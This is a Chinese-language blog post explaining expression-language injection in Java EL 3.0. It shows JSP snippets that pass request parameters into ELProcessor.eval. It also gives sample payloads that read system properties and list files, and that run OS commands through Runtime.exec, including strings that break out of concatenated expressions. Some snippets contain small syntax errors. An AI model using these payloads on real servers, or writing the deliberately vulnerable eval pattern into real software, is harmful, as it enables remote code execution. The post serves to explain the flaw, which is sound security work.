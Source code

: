 title: "Eval is evil: A EL3 Labmda Injection Attack in Java"
date: 2016-01-15 10:19:52
tags:
- 安全
categories:
- Java

---

原文：<http://sectooladdict.blogspot.com/2014/12/el-30-injection-java-is-getting-hacker.html>

JSR341 [EL in Java](http://www.infoq.com/news/2013/07/el3)在最新的EL3.0中包含了多个增强：运算符，对类访问的安全限制等。

最常见的EL3的使用场景：

```
<%
ELProcessor elp = new ELProcessor();
Object msg = elp.eval("Welcome" + user.name);
out.println(msg.toString());
%>
```

EL Processor将会动态的eval进来的EL statement，比如这里是user.name，user可能是Bean或者注入的Java Class。这里就涉及到对类或者Bean的访问问题，EL3.0引入了ELManager来管理这些访问的安全问题，包含方法：`importClass, importPackage, importStatic`。这些方法可以用import各种各样的类甚至package进入EL的上下文里，然后可以被EL里的statement引用。因此为了使用Java class在EL中，可能需要如下语句：

```
elp.getELManager().importClass("java.io.File");
```

ELManager在这里的实现主要是为了保证EL中eval的上下文环境只能访问通过ELManager引入的内容，而不能访问外部的类。但是因为在JSP和Servlet中用到了大量的通用和常见的类，所以EL里eval还是有可能被滥用：

(1) 如果开发者已经import了攻击者所需要的类，则攻击者可以使用如下方式：

```
Input1 = "File.listRoots()[0].getAbsolutePath()";
<%@page import="javax.el.ELProcessor"%>
<%@page import="javax.el.ELManager">
...
<%
String input1 = request.getParameter("input1");
ELProcessor elp = new ELProcessor();
elp.getELManager().importClass("java.io.File");
Object path = elp.eval(input1);
out.println(path);
%>
```

(2) 如果开发者开放了攻击者可以import class或者package，也就是对传入的内容没有任何限制：

```
Input1 = "File.listRoots()[0].listFiles()[1].getAbsolutePath()"
Input2 = "java.io.File";
<%@page import="javax.el.ELProcessor"%>
<%@page import="javax.el.ELManager"%>
…
<%
String input1 = request.getParameter("input1");
String input2 = request.getParameter("input2");
ELProcessor elp = new ELProcessor();
elp.getELManager().importClass(Input2);
Object path = elp.eval(input1);
out.println(path);
%>
```

--------------------------------

尽管有ELManager对importClass importPackage这样的限制，但是一个很容易被攻击的地方是，EL默认载入了`java.lang`包，为了便于开发者可以访问一些静态类型，比如：`Boolean.True Integer.numberOfTrailingZero`。

EL默认所有的statement可以访问`java.lang`的静态对象，比如：`java.lang.System` 和 `java.lang.Runtime`，攻击者很容易滥用这些机制：

```
Input1 = "System.getProperties()"
<%@page import="javax.el.ELProcessor"%>
<%@page import="javax.el.ELManager"%>
…
<%
String input1 = request.getParameter("input1");
ELProcessor elp = new ELProcessor();
Object sys = elp.eval(input1);
out.println(sys);
%>
```

或者使用`java.lang.Runtime`进行远程执行：

```
Input1 = "Runtime.getRuntime().exec('mkdir abcde').waitFor()"
<%@page import="javax.el.ELProcessor"%>
<%@page import="javax.el.ELManager"%>
…
<%
String input1 = request.getParameter("input1");
ELProcessor elp = new ELProcessor();
Object sys = elp.eval(input1);
out.println(sys);
%>
```

虽然上面的举例，攻击者可以通过外部输入的字串（input）完全控制EL，但是大部分情况下开发者会对传入的字串进行拼接（concat）而使传入的攻击字串失效，但是道高一尺魔高一丈，由于EL引入的**NEW**操作符，导致拼接的字串可以像`SQL Injection`一样被`;`截断：

```
Input1 = "; Runtime.getRuntime().exec('mkdir aaaaa12').waitFor()"
<%@page import="javax.el.ELProcessor"%>
<%@page import="javax.el.ELManager"%>
…
<%
String input1 = request.getParameter("input1");
ELProcessor elp = new ELProcessor();
Object sys = elp.eval(("'Welcome' + input1);
out.println(sys);
%>
```

远程执行漏洞：

```
Input1 = "1); Runtime.getRuntime().exec('mkdir jjjbc12').waitFor("
<%@page import="javax.el.ELProcessor"%>
<%@page import="javax.el.ELManager"%>
…
<%
String input1 = request.getParameter("input1");
ELProcessor elp = new ELProcessor();
Object sys = elp.eval(("SomeClass.StaticMethod( + input1 + ")");
out.println(sys);
%>
```

-END-

